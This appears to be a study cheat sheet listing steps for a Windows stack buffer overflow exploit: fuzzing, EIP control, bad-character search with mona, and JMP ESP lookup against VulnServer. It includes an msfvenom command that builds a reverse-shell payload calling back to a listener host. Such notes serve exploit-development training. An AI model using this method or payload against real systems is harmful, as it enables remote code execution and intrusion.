 1. Fuzz it and have it crash with all A's

2. Take control of EIP and one other register (ESP, EAX, etc.)

    A. Use `pattern_create $buffersize` and `pattern_offset $register_value`

3. Find badchars

    A. Use `!mona bytearray -b "\x00"` or use own Python algo (even better)

4. Generate the shellcode and insert it into the script
    
    A. Remember to generate the shellcode excluding the bad chars! Example:
    ```bash
    msfvenom -f python -b '\x00' -p windows/shell_reverse_tcp LHOST=192.168.40.47 LPORT=443 \
    EXITFUNC=thread > revshellwin.py`
    ```

    B. Remember to add at least 16 nops in front of the shellcode if you are jumping to location pointed by ESP. The reason for that is because the following instructions in the beginning of the decoder stub --
    ```nasm
    mov ebp, esp
    fcmove st0, st5
    fnstenv [ebp-0xC]
    ```
-- will overwrite the first 16 bytes the ESP register points to. The msfvenom-encoded shellcode does it to find its current EIP address. The decoder stub needs to know it in order to decode the main encoded payload. There are 2 ways to insert nops:
    * Manually, e.g. by inserting 16 * `\x90` bytes 
    * Automatically instructing msfvenom to prepend your shellcode with 16 random nops using `-n` flag.


5. Find space for the shellcode

    A. Try increasing buffer in necessary

6. Find instruction that will change the execution flow, e.g. JMP ESP / JMP EAX:

    A. Use nasm_shell to obtain intrcution opcodes
    
    B. First find module without ASLR and possible DEP protections: `!mona modules`
    
    C. Second find the instruction inside unprotected module, e.g. `!mona find -s "\xff\xe4" -m VulnServer.exe`
    
    D. Remember that the instruction address must not contain any bad chars!
    
    E. Remember to revert the address in your code! E.g. 0x65d11d71 becomes "\x71\x1d\xd1\x65"

    F. In more complex case when you control ESP but don't have enough space and some other register (e.g. EAX) 
       doesn't point exactly at the beginning of the controllable input you can write
    
    ```nasm    
    add eax, $offset
    jmp eax
    ```    
    
    instructions into ESP, and then put your shellcode into EAX+$offset

7. Test it.
